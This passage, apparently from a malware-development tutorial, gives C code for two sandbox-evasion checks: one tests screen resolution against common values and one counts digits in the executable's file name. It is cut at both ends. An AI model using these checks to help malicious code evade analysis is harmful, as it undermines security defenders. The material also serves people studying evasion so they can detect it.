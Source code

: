 ```c
	X = MI.rcMonitor.right - MI.rcMonitor.left;
	
	// Calculating the Y coordinates of the desplay
	Y = MI.rcMonitor.top - MI.rcMonitor.bottom;

	// If numbers are in negative value, reverse them 
	if (X < 0)
		X = -X;
	if (Y < 0)
		Y = -Y;
	
	if ((X != 1920 && X != 2560 && X != 1440) || (Y != 1080 && Y != 1200 && Y != 1600 && Y != 900))
		*((BOOL*)ldata) = TRUE; // sandbox is detected

	return TRUE;
}


BOOL CheckMachineResolution() {

	BOOL	SANDBOX		= FALSE;
	
	// SANDBOX will be set to TRUE by 'EnumDisplayMonitors' if a sandbox is detected
	EnumDisplayMonitors(NULL, NULL, (MONITORENUMPROC)ResolutionCallback, (LPARAM)(&SANDBOX));
	
	return SANDBOX;
}
```
{% endcode %}



## Anti-Virtualiation Via File Name

Sandboxs often rename filenames a method of classification. For example, they might convert the filename to it's MD5 hash equivalent. Generally resulting in a random mix of letters & numbers.

The below function counts the number of digits in the filename:

```c
BOOL ExeDigitsInNameCheck() {

	CHAR	Path			[MAX_PATH * 3];
	CHAR	cName			[MAX_PATH];
	DWORD   dwNumberOfDigits	= NULL;

	// Getting the current filename (with the full path)
	if (!GetModuleFileNameA(NULL, Path, MAX_PATH * 3)) {
		printf("\n\t[!] GetModuleFileNameA Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	
	// Prevent a buffer overflow - getting the filename from the full path
	if (lstrlenA(PathFindFileNameA(Path)) < MAX_PATH)
		lstrcpyA(cName, PathFindFileNameA(Path));

	// Counting number of digits
	for (int i = 0; i < lstrlenA(cName); i++){
		if (isdigit(cName[i]))
			dwNumberOfDigits++;
	}

	// Max digits allowed: 3 
	if (dwNumberOfDigits > 3){
		return TRUE;
```